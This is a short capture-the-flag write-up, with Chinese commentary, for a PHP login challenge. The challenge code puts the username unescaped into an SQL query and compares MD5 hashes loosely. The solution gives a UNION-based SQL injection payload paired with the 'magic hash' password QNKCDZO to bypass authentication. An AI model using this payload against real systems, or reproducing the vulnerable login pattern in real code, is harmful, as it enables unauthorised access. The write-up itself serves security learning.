 # Challenge 
```php 
<?php
if($_POST[user] && $_POST[pass]) {
	$conn = mysql_connect("********", "*****", "********");
	mysql_select_db("phpformysql") or die("Could not select database");
	if ($conn->connect_error) {
		die("Connection failed: " . mysql_error($conn));
}
$user = $_POST[user];
$pass = md5($_POST[pass]);
$sql = "select pw from php where user='$user'";
$query = mysql_query($sql);
if (!$query) {
	printf("Error: %s\n", mysql_error($conn));
	exit();
}
$row = mysql_fetch_array($query, MYSQL_ASSOC);
//echo $row["pw"];
  if (($row[pw]) && (!strcasecmp($pass, $row[pw]))) {
	echo "<p>Logged in! Key:************** </p>";
}
else {
    echo("<p>Log in failure!</p>");
  }
}
?>
```
# Solution 

用户名处存在注入。所以思路如下，我们给用户名传入：
```
user=' union select "0e830400451993494058024219903391"
```
构成的sql语句为：
```
select pw from php where user=' ' union select "0e830400451993494058024219903391"
```
第一个查询结果为空，所以结果返回的是我们传入的`0e830400451993494058024219903391`，即此时，$row[pw]=0e830400451993494058024219903391。而md5(QNKCDZO)正是该0e字符串值。

payload:
```
user=' union select "0e830400451993494058024219903391"#&pass=QNKCDZO
```

# Refference
+ [chybeta : 程序逻辑问题](https://chybeta.github.io/2017/07/24/%E5%AE%9E%E9%AA%8C%E5%90%A7-web-writeup/#%E7%A8%8B%E5%BA%8F%E9%80%BB%E8%BE%91%E9%97%AE%E9%A2%98)
